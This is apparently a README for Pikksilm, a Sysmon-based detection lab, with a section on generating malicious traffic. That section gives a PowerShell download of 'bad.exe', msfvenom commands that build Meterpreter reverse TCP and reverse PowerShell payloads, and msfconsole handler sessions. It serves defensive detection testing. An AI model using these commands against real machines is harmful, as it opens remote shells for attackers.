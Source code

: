 # Pikksilm

* [Pikksilm](https://github.com/markuskont/pikksilm)
* [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)
* [sysmon modular](https://github.com/olafhartong/sysmon-modular)
* [verbose sysmon config](https://raw.githubusercontent.com/olafhartong/sysmon-modular/master/sysmonconfig.xml)
* [Winlogbeat](https://www.elastic.co/beats/winlogbeat)

## Generating interesting traffic

* [installing metasploit on linux](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework/#installing-the-metasploit-framework-on-linux)

### Delivery

```
 Invoke-WebRequest http://server:8000/bad.exe -UseBasicParsing -OutFile bad.exe
```

### Reverse TCP

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=53  -f exe > bad.exe
```

```
msfconsole

msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost eth0
msf6 exploit(multi/handler) > set lport 53
msf6 exploit(multi/handler) > exploit

meterpreter > dir

```

### Reverse PS

```
msfvenom -p cmd/windows/reverse_powershell lhost=eth0 lport=8089 > shell.bat
```

```
msfconsole

msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload cmd/windows/reverse_powershell
msf6 exploit(multi/handler) > set lhost eth0
msf6 exploit(multi/handler) > set LPORT 8089
msf6 exploit(multi/handler) > exploit
```
